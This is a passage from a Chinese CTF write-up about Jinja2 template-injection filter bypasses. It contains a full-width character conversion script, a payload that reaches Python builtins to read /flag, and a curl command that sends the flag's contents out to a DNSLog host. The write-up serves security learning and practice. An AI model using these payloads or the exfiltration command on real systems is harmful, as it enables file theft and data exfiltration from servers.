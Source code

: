 > 𝟬𝟭𝟮𝟯𝟰𝟱𝟲𝟳𝟴𝟵
> ```
>
> 看羽师傅有个半角转全角的代码，记一下，或者输入法换全角也可以打出来
>
> ```python
> def half2full(half):  
>  full = ''  
>  for ch in half:  
>      if ord(ch) in range(33, 127):  
>          ch = chr(ord(ch) + 0xfee0)  
>      elif ord(ch) == 32:  
>          ch = chr(0x3000)  
>      else:  
>          pass  
>      full += ch  
>  return full  
> t=''
> s="0123456789"
> for i in s:
>  t+='\''+half2full(i)+'\','
> print(t)
> 
> ```
>
> 

用unicode字符替换：

```jinja2
{% set a=(config|string|list).pop(𝟳𝟰)%}
{% set glob=(a,a,dict(globals=a)|join,a,a)|join() %}
{% set bult=(a,a,dict(builtins=a)|join,a,a)|join() %}
{% set b=(lipsum|attr(glob)).get(bult) %}
{% set chr=b.chr %}
{% print b.open(chr(𝟰𝟳)~chr(𝟭𝟬𝟮)~chr(𝟭𝟬𝟴)~chr(𝟵𝟳)~chr(𝟭𝟬𝟯)).read() %}
```

或者麻烦一些构造，这里偷懒就不演示了--

```
((not{})|int,(not{})|int)|sum # 2
(config|string|list).index(x) # 2
{% set one=(dict(c=z)|join|length) %} # 1
{% set two=(dict(cc=z)|join|count) %} # 2，length、count都可以
```

## 371-过滤print

这里把print过滤掉了，本来想curl反弹shell的，但是搞了好久自己的z主机都不行，最后借[DNSLog Platform](http://dnslog.cn/)带出来了

```bash
curl `cat /flag`.aorcwf.dnslog.cn
```
